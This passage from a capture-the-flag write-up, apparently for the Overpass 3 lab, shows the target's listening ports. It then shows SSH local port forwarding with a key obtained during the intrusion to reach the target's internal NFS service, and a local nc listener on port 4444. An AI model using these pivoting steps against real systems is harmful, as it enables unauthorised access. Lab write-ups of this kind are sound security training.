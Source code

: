 I tried mounting but I got an error so I checked for open ports so I could use an ssh tunnel to get access. 

```console
#target
[paradox@localhost ~]$ ss -tnlp
State          Recv-Q         Send-Q                 Local Address:Port                  Peer Address:Port
LISTEN         0              128                          0.0.0.0:111                        0.0.0.0:*
LISTEN         0              128                          0.0.0.0:20048                      0.0.0.0:*
LISTEN         0              128                          0.0.0.0:22                         0.0.0.0:*
LISTEN         0              128                          0.0.0.0:55257                      0.0.0.0:*
LISTEN         0              64                           0.0.0.0:44699                      0.0.0.0:*
LISTEN         0              64                           0.0.0.0:2049                       0.0.0.0:*
LISTEN         0              128                             [::]:111                           [::]:*
LISTEN         0              128                             [::]:20048                         [::]:*
LISTEN         0              128                                *:80                               *:*
LISTEN         0              64                              [::]:39091                         [::]:*
LISTEN         0              128                             [::]:40371                         [::]:*
LISTEN         0              32                                 *:21                               *:*
LISTEN         0              128                             [::]:22                            [::]:*
LISTEN         0              64                              [::]:2049                          [::]:*
```

I used ssh port forwarding to get access to the nfs port on port 2049

```console
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3/ftp]
└─# ssh -L 2049:10.10.134.5:2049 -i ../id_rsa_paradox paradox@10.10.134.5
Last login: Tue Apr 20 21:41:16 2021 from 10.8.169.153
[paradox@localhost ~]$

┌──(root💀Toyin)-[~/infosec/thm/overpass-series/3]
└─# ss -tunlp
Netid  State   Recv-Q  Send-Q     Local Address:Port     Peer Address:Port  Process
udp    UNCONN  0       0                0.0.0.0:34946         0.0.0.0:*      users:(("openvpn",pid=47,fd=3))
tcp    LISTEN  0       1                0.0.0.0:4444          0.0.0.0:*      users:(("nc",pid=23763,fd=3))
tcp    LISTEN  0       128            127.0.0.1:2049          0.0.0.0:*      users:(("ssh",pid=26912,fd=5))
tcp    LISTEN  0       128                [::1]:2049             [::]:*      users:(("ssh",pid=26912,fd=4))
```
